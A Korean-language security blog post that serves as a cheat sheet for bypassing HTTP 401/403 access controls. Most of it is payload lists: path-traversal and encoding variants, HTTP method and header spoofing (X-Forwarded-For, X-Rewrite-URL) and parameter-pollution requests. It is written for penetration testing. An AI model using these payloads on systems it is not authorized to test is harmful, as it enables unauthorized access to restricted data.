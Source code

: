 ```yaml
---
layout: single
title:  401&403(Access Control) Bypass
categories: Web-vuln
tag: [403, 401, Forbidden, access control, 403 bypass]
toc: true
author_profile: false
---
```


## HTTP 상태코드 401&403
> 특정 페이지들을 살펴보다 보면, HTTP 상태코드로 401 또는 403으로 반환되는 경우가 종종 있다.  이 두 종류의 코드는 무엇일까?

### 401 Unauthorized
> HTTP 표준에서 Unatuhorized(미승인)으로 명시하고 있지만 해당 응답의 경우 비 인증을 의미할 수 있다. 즉  클라이언트 측에서 요청을 보내게 되면, 서버로 부터의 응답을 받기 위해 인증이 이루어져야 한다는 것이다.

### 403 Forbidden
> 흔히 볼 수 있는 응답코드로 권한과 관련되어있다. 해당 요청 클라이언트가 요청한 콘텐츠에 접근할 권한을 가지고 있지 않음을 나타낸다. 서버측에서 해당 클라이언트의 접근을 거부한다는 것이다.

# Bypass 401&403

HTTP 상태코드인 401과 403은 웹 사이트 정찰 과정에서 정말 많이 만나게된다.
<br>
이러한 상태코드를 우회할 수 있는 방법은 여러가지가 존재하며, 해당 상태 코드를 만나게 되었을 때
<br>
한번쯤 시도해볼만 하다.
1. **HTTP Method 변경**  : (GET, POST, PUT, DELETE) 등과 같은 Method를 사용하여 접근을 시도해볼 수 있다.
2. **URL 인코딩 변경** : 요청 URL을 인코등 혹인 더블 인코딩 또는 유니코드 인코딩을 통해 우회 시도를 해볼 수 있다.
3. **Path Traversal** : ‘./’ 과 같은 경로조작을 통해 우회 시도를 해볼 수 있다.
4. **대소문자 변경** : 대소문자를 구별하지 않을 수 있으니, 대소문자 변경을 통해 우회 시도를 해볼 수 있다.
5. **HTTP Header 조작** : x-Forwarded, referer 와 같은 헤더를 통해 서버를 속여 우회 시도를 해볼 수 있다.
6. **URL Fragment 삽입** : URL 끝단에 Fragment를 삽입함으로써 우회를 시도해볼 수 있다.

## 1. HTTP Method 변경
HTTP 요청 Requests에는 여러 종류의 Method가 존재한다. 이를 다양하게 변경하여 요청하는것도 좋은 테스팅 방법일 수 있다.
<br>
POST 요청에서 사용되는 방식을 GET 형식으로 파라미터를 통해 요청이 가능하다.

```
methods:
    - GET
    - HEAD
    - POST
    - PUT
    - DELETE
    - CONNECT
    - OPTIONS
    - TRACE
    - PATCH

GET /admindirectory/ HTTP/1.1
POST /admindirectory/ HTTP/1.1
PUT /admindirectory/ HTTP/1.1
HEAD /admindirectory/ HTTP/1.1
```
> 추가적으로 User-Agent를 조작하여서도 우회가 가능하다.

웹 브라우저에 access 할 때 사용하는 브라우저/OS 등에 따라 제공하는 서비스가 다를 수 있다.

## 2. URL 인코딩 변경
> .. 와같은 문자들을 여러 종류의 인코딩 방법으로 우회가 가능하다.

```
Original: //admin
URL: /%2fadmin
DURL: /%252fadmin
Unicode: /%ef%bc%8fadmin
```

## 3. Path Traversal
> Path Traversal 취약점을 응용하여 401 또는 403 상태코드를 우회할 수 있다.

```
target.com/secret
target.com/%2e/secret
/secret%20
/secret%09
/secret%00
/%90/secret
/%2e/secret
/secret/
/secret/.
//secret//
/./secret
/;/secret
/.;secret
//;//secret
/secret..;/
/secret/..;/
/secret.json
/secret.css
/secret.html
/secret?
/secret??
/secret???
/secret?testparam
/secret#
/secret#test
/...
/..%00
/..%01
/..%0a
/..%0d
/..%09
/~root
/~admin
/%20/
/%2e%2e/
/%252e%252e/
/%c0%af/
/%e0%80%af
site.com/secret/
site.com/secret/.
site.com//secret//
site.com/./secret/..
site.com/;/secret
site.com/.;/secret
site.com//;//secret
site.com/secret.json –> HTTP 200 OK (ruby)
```

## 4. 대소문자 변경

```
Original: /admin
Upper: /ADMIN
```

기타 API 사용할 경우 버전변경을 통해서도 가능하다

```
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
{“id”:111} --> 401 Unauthriozied
{“id”:{“id”:111}} --> 200 OK
{"user_id":"<legit_id>","user_id":"<victims_id>"} (JSON Parameter Pollution)
user_id=ATTACKER_ID&user_id=VICTIM_ID (Parameter Pollution)
```

## #프로토콜 변경을 통해서도 가능하다.

```
protocol_versions:
    - "0.9"
    - "1.0"
    - "1.1"
    - "2"

https://trust.com -> 200 403 or 401
http://trust.com -> 200 ok
```

## 5. HTTP Header 조작
일부 HTTP Header 은 클라이언트의 IP 혹은 HOST 정보를 속일 수 있다.
<br>
예를 들어 IP 주소 필터링에만 의존하는 웹 서버가 존재한다면 X-Forwarded-For 헤더를 사용해서
<br>
손쉽게 우회를 시도해볼 수 있다.

```
사용가능 HTTP 요청 헤더
    - X-Forwarded-For
    - X-Forward-For
    - X-Forwarded-Host
    - X-Forwarded-Proto
    - Forwarded
    - Via
    - X-Real-IP
    - X-Remote-IP
    - X-Remote-Addr
    - X-Trusted-IP
    - X-Requested-By
    - X-Requested-For
    - X-Forwarded-Server
		- Host: localhost
		- X-ProxyUser-I
		- Redirect: http://localhost
    - Referer: http://localhost
    - X-Original-URL
''' 등등
```

## 6. URL Fragment 삽입

```
https://trust.com -> 200 403 or 401
http://trust.com#fragment -> 200 ok
```

## 7. X-Rewirte-URL 헤더를 통한 경로 재지정
> X-Rewrite-URL 헤더를 허용하는 서버가 존재한다면, 접근 제한이 걸린 페이지를 백엔드에서 url을 설정 하여 접근할 수 있다.

```
GET /admin/ HTTP/1.1 -> 403

GET / HTTP/1.1 -> 200 ok
X-Rewrite-URL: /admin/
```

# Referance
- https://www.hahwul.com/2021/10/08/bypass-403/
- https://www.codelivly.com/401-403-bypass-cheatsheet/
- https://www.vidocsecurity.com/blog/401-and-403-bypass-how-to-do-it-right/
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/403-and-401-bypasses